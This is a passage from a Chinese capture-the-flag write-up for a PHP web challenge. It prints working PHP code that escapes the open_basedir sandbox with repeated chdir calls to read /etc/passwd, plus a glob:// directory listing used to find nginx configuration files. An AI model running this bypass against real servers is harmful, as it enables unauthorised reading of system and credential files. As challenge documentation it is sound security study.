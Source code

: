 再利用如下，读取文件

```php
<?php
mkdir('gyy');
chdir('gyy');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
var_dump(file_get_contents("/etc/passwd"));
```

读取php.ini

` /usr/local/etc/php/php.ini`

![ext](bluehat2021/image-20210503140055221.png)

发现异常.so文件，可能是要加载然后pwn它，实在不会。

### 读取配置文件

```php
<?php
mkdir('gyy');
chdir('gyy');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///etc/nginx/*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>
```

读`/etc/nginx/nginx.conf`，发现有`include /etc/nginx/sites-enabled/*;`

转头读取`/etc/nginx/sites-enabled/default`

![cgi](bluehat2021/image-20210503142114737.png)